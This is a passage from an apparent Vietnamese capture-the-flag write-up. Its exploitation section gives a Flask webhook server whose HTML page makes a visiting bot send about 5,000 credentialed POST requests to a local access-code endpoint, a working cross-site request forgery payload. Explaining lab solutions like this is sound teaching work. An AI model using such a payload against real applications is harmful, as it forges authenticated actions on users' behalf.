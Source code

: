### Khai thác 

#### File `webhook.py`

```Python= 
from flask import Flask, request, make_response 
from flask_cors import CORS 

app = Flask(__name__)
CORS(app)

HTML_RESPONSE = """
<!DOCTYPE html> 
<html>
<head>
    <title>Webhook Received</title>
</head>
<body>
    <h1>Webhook Received</h1>
    <script>
        for (let i = 1; i < 5000; i++) {
            fetch ("http://127.0.0.1:19101/api/post/1/access-code", {
                method: "POST",
                body: JSON.stringify({
                    valid_hours: 24, 
                    username: "hoangphuc",
                    custom_code: "0123456789"
                }),
                credentials: "include"
            })
        }
    </script>
</body>
</html>
"""

@app.route('/', defaults={'path': ''}, methods=['GET', 'POST', 'PUT', 'DELETE', 'PATCH', 'OPTIONS'])
@app.route('/<path:path>', methods=['GET', 'POST', 'PUT', 'DELETE', 'PATCH', 'OPTIONS'])
def webhook(path):
    print(f"✅ Received {request.method} request on /{path}")
    response = make_response(HTML_RESPONSE, 200)
    response.headers['Content-Type'] = 'text/html'
    return response 

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

File `webhook.py` này sẽ thực hiện bằng cách khi bot nhấp vào thì sẽ fetch tới endpoint tạo access-code 5000 lần. 
